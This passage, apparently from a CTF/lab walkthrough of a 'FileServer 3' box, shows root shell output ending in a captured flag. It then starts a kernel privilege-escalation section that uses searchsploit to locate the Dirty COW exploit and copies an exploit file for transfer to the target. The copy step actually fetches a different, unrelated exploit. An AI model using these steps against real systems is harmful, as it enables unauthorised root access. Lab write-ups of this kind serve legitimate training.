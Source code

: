   ```
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: ens32: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
      link/ether 00:0c:29:48:70:31 brd ff:ff:ff:ff:ff:ff
      inet 192.168.2.15/24 brd 192.168.2.255 scope global dynamic ens32
         valid_lft 1310sec preferred_lft 1310sec
      inet6 fe80::20c:29ff:fe48:7031/64 scope link 
         valid_lft forever preferred_lft forever
  [root@fileserver tmp]# cd /root
  [root@fileserver ~]# ls -lhai
  total 40K
  67149953 drwxr--r--.  4 root root 4.0K Feb 27  2020 .
       128 dr-xr-xr-x. 18 root root 4.0K Feb 18  2020 ..
  67149960 lrwxrwxrwx   1 root root    9 Feb 25  2020 .bash_history -> /dev/null
  67825059 -rwxr--r--.  1 root root   18 Dec 29  2013 .bash_logout
  67825101 -rwxr--r--.  1 root root  176 Dec 29  2013 .bash_profile
  67825102 -rwxr--r--.  1 root root  176 Dec 29  2013 .bashrc
  67825103 -rwxr--r--.  1 root root  100 Dec 29  2013 .cshrc
  34820783 drwxr--r--.  3 root root   18 Feb 18  2020 .pki
  67574013 -rwxr--r--   1 root root  449 Feb 27  2020 proof.txt
     17869 drwxr--r--   2 root root   46 Feb 25  2020 .ssh
  67825104 -rwxr--r--.  1 root root  129 Dec 29  2013 .tcshrc
  68898523 -rwxr--r--   1 root root 6.2K Feb 21  2020 .viminfo
  [root@fileserver ~]# cat proof.txt 
      _______ __    _____                                       _____
     / ____(_) /__ / ___/___  ______   _____  _____            |__  /
    / /_  / / / _ \\__ \/ _ \/ ___/ | / / _ \/ ___/  ______     /_ < 
   / __/ / / /  __/__/ /  __/ /   | |/ /  __/ /     /_____/   ___/ / 
  /_/   /_/_/\___/____/\___/_/    |___/\___/_/               /____/  
                                                                     
  
  flag : 7be300997079eaebcdf9975ede6746e9
  [root@fileserver ~]# 
  ```

### 使用内核提权

- 搜索当前内核版本`searchsploit kernel 3.10 | grep "Privilege"`

- 经过测试,当前系统版本可以使用`Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self/mem Race Condition (Write Access | linux/local/40611.c`

- 将文件下载后传输到靶机中:

- ```shell
  └─$ searchsploit kernel 3.1 -m 40616.c
  [!] Could not find EDB-ID #
  
  
    Exploit: Linux Kernel 2.2.x/2.4.x (RedHat) - 'ptrace/kmod' Local Privilege Escalation
        URL: https://www.exploit-db.com/exploits/3
       Path: /usr/share/exploitdb/exploits/linux/local/3.c
      Codes: OSVDB-4565, CVE-2003-0127
   Verified: True
  File Type: C source, ASCII text
  cp: overwrite '/home/kali/Desktop/walkthroughs/CF_03/3.c'? y
  Copied to: /home/kali/Desktop/walkthroughs/CF_03/3.c
  
